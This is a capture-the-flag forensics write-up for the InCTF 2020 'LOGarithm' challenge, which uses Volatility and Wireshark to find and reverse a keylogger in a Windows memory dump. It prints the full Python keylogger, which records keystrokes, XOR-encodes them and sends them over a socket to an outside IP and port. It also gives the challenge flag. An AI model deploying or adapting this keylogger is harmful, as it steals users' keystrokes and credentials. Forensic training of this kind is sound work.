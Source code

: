 ```yaml
---
title: LOGarithm - InCTF Internationals 2020
date: 2020-08-04 21:08:25
author: stuxn3t
author_url: https://twitter.com/_abhiramkumar
categories:
  - Forensics
  - Memory
tags:
  - Windows Memory Analysis
  - InCTFi
---
```


**tl;dr**

+ Extract keylogger script from the memory dump.
+ Extract the master key from the packet capture.
+ Reverse the script to get the flag.

<!--more-->

**Challenge points**: 100
**No. of solves**: 49
**Challenge Author**: [stuxn3t](https://twitter.com/_abhiramkumar)

## Challenge description

![description](description.png)

The challenge file can be downloaded from [Google drive](https://drive.google.com/file/d/13jqNNjlYjrcAaIdmq77sd2HkE6athVJg/view).

## Initial analysis

We are provided with 2 files. A memory dump and packet capture.

In this post, I will be first going through the memory dump in order to relate better with the traffic present in the packet capture.

### Finding the profile

`$ volatility -f Evidence.vmem imageinfo`

![imageinfo](imageinfo.png)

I'll be using `Win7SP1x64` as the profile for this challenge.

## Scanning active processes

Since we believe that some data was stolen sent to the adversary, it is good to assume that we might have a malicious process running. Let us check the active processes 
in the system to better understand the scenario.

`$ volatility -f Evidence.vmem --profile=Win7SP1x64 pslist`

![pslist](pslist.png)

We observer 2 very interesting processes `cmd.exe` & `python`.

## Listing the command prompt history

Let us use the `cmdscan` plugin to check if any suspicious commands were executed.

`$ volatility -f Evidence.vmem --profile=Win7SP1x64 cmdscan`

![cmdscan](cmdscan.png)

Well, there is nothing much in it which can be of any use.

## Finding the keylogger

Now, we have to check what "file" was executed in python. Let us use the `cmdline` plugin to see what script was run.

`volatility -f Evidence.vmem --profile=Win7SP1x64 cmdline -p 2216`

![cmdline](cmdline.png)

So this was the file `C:\Users\Mike\Downloads\keylogger.py` that was executed.

### Extracting keylogger.py

We will use the `filescan` plugin to locate the offset of the file.

`$ volatility -f Evidence.vmem --profile=Win7SP1x64 filescan | grep "keylogger.py"`

![filescan](filescan.png)

So the offset is `0x000000003ee119b0`

Using the `dumpfiles` plugin, we dump the file.

## Reversing keylogger

This is the `keylogger.py` script that we extracted from memory.

```python
import socket, os
from pynput.keyboard import Key, Listener
import socket

import logging
list1 = []

def keylog():
    dir = r"C:\Users\Mike\Desktop\key.log"
    logging.basicConfig(filename=dir, level=logging.DEBUG,format='%(message)s')

    def on_press(key):
        a = str(key).replace("u'","").replace("'","")
        list1.append(a)

    def on_release(key):
        if str(key) == 'Key.esc':
            print "Data collection complete. Sending data to master"
            logging.info(' '.join(list1))
            logging.shutdown()
            master_encrypt()
        

    with Listener(
        on_press = on_press,
        on_release = on_release) as listener:
        listener.join()

def send_to_master(data):
    s = socket.socket()
    host = '18.140.60.203'
    port = 1337
    
    s.connect((host, port))
    key_log = data
    s.send(key_log)
    s.close()
    exit(1)

def master_encrypt():
    mkey = os.getenv('t3mp')
    f = open("C:/Users/Mike/Desktop/key.log","r")
    modified = ''.join(f.readlines()).replace("\n","")
    f.close()
    data = master_xor(mkey, modified).encode("base64")
    os.unlink("C:/Users/Mike/Desktop/key.log")
    send_to_master(data)

def master_xor(msg,mkey):
    l = len(mkey)
    xor_complete = ""

    for i in range(0, len(msg)):
        xor_complete += chr(ord(msg[i]) ^ ord(mkey[i % l]))
    
    return xor_complete

if __name__ == "__main__":
    keylog()
```

So from the script above we can see that, the script is **logging keystrokes** and **xor-ing** it with a malicious environmental variable `t3mp`. The **IP** of the attacker is also visible which in this case is `18.140.60.203` and the **port** is `1337`.

So we have to extract the encrypted text from the packet capture and also retrieve the value of the env `t3mp`.

## Extracting encrypted text & malicious env

We use `Wireshark` to inspect the pcap file. Since we already know the IP and port, we can apply appropriate filters and extract the text.

![wireshark](wireshark.png)

The data is some base64 encoded text.

To extract malicious env, we use the `envars` plugin to get the variable's value.

![env](envars.png)

Now that we have everything we need, all we need to do is to xor them.

## Decryption

![solution](solution.png)

So in this way, we extract the flag.

## Flag

**FLAG**: `inctf{n3v3r_TrUs7_Sp4m_e_m41Ls}`

For further queries, please DM me on Twitter: <https://twitter.com/_abhiramkumar>.
